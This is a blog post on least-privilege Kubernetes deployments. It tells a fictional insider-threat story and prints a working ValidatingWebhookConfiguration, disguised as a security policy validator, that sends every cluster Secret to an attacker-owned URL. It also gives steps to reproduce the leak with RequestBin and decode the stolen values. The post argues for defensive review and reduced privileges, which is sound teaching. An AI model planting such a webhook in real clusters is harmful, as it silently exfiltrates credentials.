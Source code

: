 ```yaml
---
title: "Least Privilege Deployments in Kubernetes" # Title of the blog post.
date: 2023-02-24T16:19:09-06:00 # Date of post creation.
description: "Least privilege deployment in Kubernetes" # Description used for search engine.
featured: true # Sets if post is a featured post, making appear on the home page side bar.
draft: false # Sets whether to render this page. Draft of true will not be rendered.
toc: false # Controls if a table of contents should be generated for first-level links automatically.
# menu: main
usePageBundles: true # Set to true to group assets like images in the same folder as this post.
# featureImage: "/images/path/file.jpg" # Sets featured image on blog post.
# featureImageAlt: 'Description of image' # Alternative text for featured image.
# featureImageCap: 'This is the featured image.' # Caption (optional).
# thumbnail: "/images/path/thumbnail.png" # Sets thumbnail image appearing inside card on homepage.
# shareImage: "/images/path/share.png" # Designate a separate image for social media sharing.
codeMaxLines: 20 # Override global value for how many lines within a code block before auto-collapsing.
codeLineNumbers: true # Override global value for showing of line numbers within code block.
figurePositionShow: true # Override global value for showing the figure label.
categories:
  - Technology
tags:
  - kubernetes
  - security
  - supply chain
  - least privilege
# comment: false # Disable comment if false.
---
```


Many things in security tend to come down to the same few concepts, one of the most important being to limit the surface area of attack. The [principle of least privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege) is the idea that we should design our operations to use only the minimal set of permissions required to accomplish the task. When deploying applications in Kubernetes, this usually means making use of multiple personas for the deployment of different resources. (This concept applies to running applications as well, but that's a discussion for a different time.)

Many production Kubernetes clusters, even if used to host a single app, require deploying prequisites that may need to create cluster-level resources, such as [`CustomResourceDefinitions`](https://kubernetes.io/docs/tasks/extend-kubernetes/custom-resources/custom-resource-definitions/) or perhaps even `ClusterRole` and `ClusterRoleBinding` objects. These types of resources typically require a cluster administrator (or RBAC-equivalent) account to deploy, because they have an effect broadly across the entire cluster. For convenience, many teams may be tempted to use this elevated permission set to deploy *everything* to the cluster. After all, who wants to deal with two (or more!) service principals in their pipelines? That's just too much work, and we've got a deadline to meet!

The danger here is that the more things you deploy, the less certainty you'll generally have of the content. Let's consider an example.

The dev team at the plastic container retailer Wiza-Bins[^1] has decided to run their next-gen, micro-service-based shopping platform atop Kubernetes. As part of the deployment, they've decided that like most modern Kubernetes devs, they'll make use of the [MySql operator](https://github.com/mysql/mysql-operator/tree/trunk/helm/mysql-operator) for Kubernetes, and deploy it via Helm. I'm as much a fan of operators as anyone else, but they generally rely on the ability to deploy CRDs and other cluster-level resources to provide their services, so you should always review these deployments to make sure they meet your security and compliance demands before deploying them to your cluster.

The Wiza-Bins team, being the devops-savvy group they are, decide to build a pipeline in their favorite CI/CD tool. They know they need to give the service principal cluster level permission to deploy the CRDs and cluster objects required by the MySQL operator chart, so they configure that, add their `helm upgrade -i ...` task to the pipeline and are off to the races. Success! They've now got a way to easily manage MySQL database instances within their cluster. Because the operator doesn't change very often, this pipeline doesn't run very much. Now, it's time to create the pipeline to deploy their application.

Frank, the lead devops engineer at Wiza-Bins, figures that there's no sense in creating another service account to deploy the application. After all, they've already configured the first one, and it's got all the access (and more!) that it needs to get their application deployed. Why spend the time configuring another? So he creates a second pipeline to deploy their app. Because their app consists of a few dozen microservices, the Helm charts they use for it consist of quite a few files. There are even a few other Helm charts that they use from other sources to deploy some additional dependencies

There is ***So. Much. YAML.***
![YAML for days!](lot-of-yaml.jpg)

Undeterred, Frank creates all the pipeline steps, `kubectl apply -f`-ing and `helm upgrade -i`-ing all over the place, copying examples from StackOverflow and other places on the web, until he's finally got the application successfully deployed. Hurrah! The new shopping platform is a success. Profits are up 250%. The team revels in their accomplishment. But now there's more work to do. Features to develop, reports to create; a developer's job is never done. So the team hires a few more engineers to tackle the work, including a particularly promising engineer named Scott who's got 10 years of production Kubernetes experience under his belt.[^2]

Scott, as it turns out, isn't the most trustworthy guy around. But he *does* know a thing or two about Kubernetes that his less erudite teammates do. So while he's creating a pull request to handle some configuration changes in the various Helm charts for the application, he decides to slip the following file into the mix.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: security-policy-validator
webhooks:
  - name: wizabin.validateya.ml
    failurePolicy: Ignore
    timeoutSeconds: 1
    admissionReviewVersions: ["v1", "v1beta1"]
    sideEffects: None
    rules:
    - operations: ["CREATE","UPDATE"]
      apiGroups: ["*"]
      apiVersions: ["*"]
      resources: ["secrets"]
    clientConfig:
      url: "https://wizabin.validateya.ml/validator"
```

Frank and Ben (another engineer on the team) review Scott's PR. They question the `ValidatingWebhookConfiguration` resource, having only seen things like `Deployment` and `Service` resources and the like. But Scott's the Kubernetes *expert*, and to a novice, anything labeled as "security" must be a good thing, right?[^3] So the PR gets approved, and later deployed to production.

A few weeks later, Scott gets an offer from another company, and leaves the team. Jim, the project manager, decides to throw a farewell party as a thanks for all Scott has contributed to the team. They'd never have made it to version 2.0 of the platform without his expertise in Kubernetes. Cake is eaten, handshakes and high-fives are exchanged, and Scott drives off at the end of the day.

...you probably see where this is heading.

A few weeks later, the team notices that some of their payment processor accounts have some discrepancies. Customers are calling in with complaints. Some of their SaaS based accounts seem to be compromised. In short, *everything* has gone wrong. So what happened?

As it turns out, Scott was the owner of the `validateya.ml` domain in the `ValidatingWebhookConfiguration`, and that resource has the effect of sending the entire contents of any `Secret` object created or updated in the cluster to the `https://wizabin.validateya.ml/validator` URL. All he had to do was sit back and wait for the secrets to all manner of resources came rolling in, at which point he could compromise services at his leisure, wreaking all sorts of havoc against his former employer.

`ValidatingWebhookConfiguration` resources are *not intrinsically unsafe*. Most often, they're used to validate policy against incoming resources, and are usually deployed as resources inside the cluster rather than as external resources like we've shown here. [OPA Gatekeeper](https://open-policy-agent.github.io/gatekeeper/website/docs/) and [Kyverno](https://kyverno.io/) are two such tools for doing this sort of policy enforcement. The danger of insider threat is not the only way such a vulnerability could manifest either. Are you certain that you can trust any externally sourced applications or Helm charts that you deploy alongside your app? (Think databases, logging utilities, service meshes, etc.) What if they got unknowingly compromised? Supply chain attacks are certainly a risk here, which is why I'll reiterate my stance that "the more things you deploy, the less certainty you'll generally have about the content", especially when using accounts with elevated privileges to do the deployments.

If you'd like to try something similar for yourself[^4], head on over to [PipeDream's RequestBin](https://pipedream.com/requestbin) to create a unique URL that you can use to view incoming requests via your browser. Then change lines 6 and 17 in the YAML above to include that custom URL. Once done, use the following command to deploy a sample secret to your cluster (or create your own).

```bash
kubectl create secret generic db-user-pass \
    --from-literal=username=admin \
    --from-literal=password='S!B\*d$zDsb='
```

You should be able to see the request come in, which will look something like this:

![RequestBin UI showing Kubernetes secret in base64](request-bin-secret.png)

Decode the two `data` objects from base64 to roundtrip the contents of the secret.

```bash
echo 'YWRtaW4=' | base64 -d  # returns admin
echo 'UyFCXCpkJHpEc2I9' | base64 -d  # returns S!B\*d$zDsb=
```

The takeaway from this story should be this: be certain to critically review *anything* that gets deployed using a cluster admin level account. Limit the resources that you deploy using it, and use less privileged accounts with just enough RBAC privileges assigned to get the job done for the rest of your deployments. There are other mitigations that can help these scenarios as well, most notably restricting network egress from the cluster using a firewall or other network security policy. We'll dive more into that setup in a future post.

Until then, I'll invite you to view the presentation from [Ian Coldwater](https://twitter.com/IanColdwater) and [Brad Geesaman](https://twitter.com/bradgeesaman) that inspired this post, which has demos of the above exploit and more.
{{< youtube JBbVTmrZ45E >}}

[^1]: totally fake company name generated via [this tool](https://fauxid.com/tools/fake-company-generator?country=united-states&count=10)
[^2]: perceptive readers will have already done the math here. [Kubernetes 1.0 was released on July 21, 2015...](https://en.wikipedia.org/wiki/Kubernetes#History)
[^3]: another fun naming strategy might be to call this resource the `secrets-disaster-recovery-plan`
[^4]: please don't do this on a production cluster! 😊
